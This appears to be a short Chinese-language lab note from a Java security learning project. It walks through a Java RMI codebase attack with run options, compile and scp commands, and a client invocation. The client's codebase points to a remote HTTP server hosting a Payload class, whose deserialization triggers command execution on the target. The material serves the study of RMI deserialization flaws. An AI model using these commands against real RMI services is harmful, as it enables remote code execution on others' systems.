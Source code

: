 # cmd
```text
EditConfigurations: vm option 添加

java -Djava.rmi.server.hostname=192.168.31.141 -Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=/.../client.policy com.xjjlearning.hack.java.codebase.RemoteRMIServer
```

# RMIClient执行过程
不要让target目录下存在RMIClient文件, 将ICalc.java, RMIClient.java拿一份到别的地方远离这个工程文件夹, 重新编译一下
```text
mkdir ~/Desktop/com/xjjlearning/hack/java/codebase/
cp RMIClient.java ICalc.java ~/Desktop/com/xjjlearning/hack/java/codebase/
javac ~/Desktop/com/xjjlearning/hack/java/codebase/*.java
```
打包一份到服务器上
```text
scp -r ~/Desktop/com root@47.95.7.37:/root/EXP/
```
进入桌面执行命令
```text
cd ~/Desktop
java -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.codebase=http://47.95.7.37:9870/ com.xjjlearning.hack.java.codebase.RMIClient
```
这样server就会去codebase指定的路径找Payload类, 由于payload类连着RMIClient类 所以就一起下载下来了 这样在反序列化的时候就会触发命令执行
